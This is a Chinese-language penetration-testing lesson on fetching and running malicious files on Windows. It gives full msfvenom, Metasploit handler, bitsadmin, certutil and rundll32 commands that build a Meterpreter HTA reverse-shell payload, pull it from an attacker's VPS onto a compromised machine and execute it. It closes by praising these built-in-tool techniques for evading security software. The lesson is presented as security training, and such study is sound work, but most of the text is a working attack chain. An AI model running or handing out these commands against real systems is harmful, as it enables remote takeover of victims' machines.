# 网络安全系统教程：P56：Bitsadmin命令行工具上传文件 🛠️

在本节课中，我们将学习如何使用Windows系统自带的命令行工具`bitsadmin`来上传或下载文件。这是一种在渗透测试中，当获得目标系统初步权限后，用于传输文件（如木马程序）的常见方法。我们将通过一个完整的实例，演示如何生成一个HTA木马文件，并使用`bitsadmin`将其下载到目标机器上执行，从而获取一个反向Shell。



---



## Bitsadmin工具简介

上一节我们介绍了文件传输在渗透测试中的重要性，本节中我们来看看`bitsadmin`这个工具。



`bitsadmin`是Windows系统自带的一个命令行工具。它的作用是创建、管理和监视后台智能传输服务（BITS）作业。我们可以用它来执行文件的下载和上传任务，并查看其进度。



简单来说，`bitsadmin`是Windows下的一个内置工具，我们可以利用它从远程服务器下载文件到本地。



---





## 实战演示：生成并传输HTA木马







以下是使用`bitsadmin`进行文件下载和反弹Shell的完整步骤。

### 步骤一：生成HTA木马文件

首先，我们使用Metasploit Framework（MSF）生成一个HTA格式的木马文件。

1.  启动MSF并生成文件：
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=你的VPS公网IP LPORT=监听端口 -f hta-psh -o shell.hta
    ```
    这条命令会生成一个名为`shell.hta`的文件。





2.  **HTA文件解析**：
    *   HTA是HTML Application的缩写，即可执行的HTML应用程序。
    *   其本质是HTML代码，但可以被Windows系统当作独立应用程序运行。
    *   我们生成的HTA文件核心是使用`Wscript.Shell`对象来执行一段经过混淆的PowerShell脚本。
    *   该PowerShell脚本的核心功能是连接攻击者的监听端口，建立一个反向Shell会话。

### 步骤二：设置监听并托管文件

1.  在MSF中设置监听，等待目标连接：
    ```bash
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set LHOST 你的VPS监听IP（通常是内网网卡IP）
    set LPORT 监听端口
    exploit
    ```
    **注意**：`LHOST`的设置取决于你的VPS网络环境。如果是拥有独立公网IP的VPS，则直接设置公网IP；如果是云服务器（通过NAT映射），则需要设置为服务器内网网卡（如eth0）的IP地址。

2.  将生成的`shell.hta`文件放置在你的Web服务器目录下（例如Apache的`/var/www/html/`），确保可以通过URL访问，如`http://你的VPS_IP/shell.hta`。





### 步骤三：在目标机器上使用Bitsadmin下载文件





假设我们已经通过其他方式获得了目标Windows机器的一个命令执行权限。









使用以下`bitsadmin`命令从我们的VPS下载木马文件：
```cmd
bitsadmin /transfer myjob http://你的VPS_IP/shell.hta C:\Users\Public\shell.hta
```
**命令参数解析**：
*   `/transfer`：启动一个传输作业。
*   `myjob`：作业名称，可以任意指定。
*   `http://...`：要下载的远程文件URL。
*   `C:\Users\Public\shell.hta`：文件下载到本地后的保存路径和文件名。



执行后，`bitsadmin`会显示下载进度。完成后，可以在指定路径找到下载的文件。

### 步骤四：执行HTA文件获取Shell

下载完成后，需要在目标机器上执行这个HTA文件。这里我们使用`rundll32.exe`来调用执行。

执行以下命令：
```cmd
rundll32.exe url.dll, OpenURL C:\Users\Public\shell.hta
```
**命令原理**：
*   `rundll32.exe`用于调用DLL文件中的函数。
*   `url.dll`是系统DLL，其中的`OpenURL`函数可以打开指定的URL或文件。当用于打开HTA文件时，系统会将其作为应用程序执行。

命令执行后，如果一切正常，我们之前在MSF上设置的监听器就会收到来自目标机器的连接，并成功获取一个Meterpreter会话（Shell）。



---

## 补充：Certutil工具下载文件





除了`bitsadmin`，Windows系统还有一个内置工具`certutil`也可以用于文件下载。`certutil`是证书服务的一部分，主要用于操作证书，但其`-urlcache`参数可以用于下载文件。





使用方法如下：
```cmd
certutil -urlcache -split -f http://你的VPS_IP/shell.hta shell.hta
```
执行成功后，当前目录下就会生成下载的`shell.hta`文件。

---

## 总结





本节课中我们一起学习了在Windows渗透测试中利用系统自带工具进行文件传输的方法。





1.  我们首先介绍了`bitsadmin`工具的基本用途。
2.  然后通过一个完整实例，演示了从生成HTA格式的Meterpreter木马，到在目标机器上使用`bitsadmin /transfer`命令下载该文件。
3.  接着，我们使用`rundll32.exe url.dll,OpenURL`命令来执行下载的HTA文件，从而成功获得一个反向Shell连接。
4.  最后，我们补充了另一个工具`certutil`的下载文件用法。





掌握这些利用系统合法工具进行“无文件”或“轻量级”攻击的方法，对于绕过安全软件的检测和进行内网横向移动非常有帮助。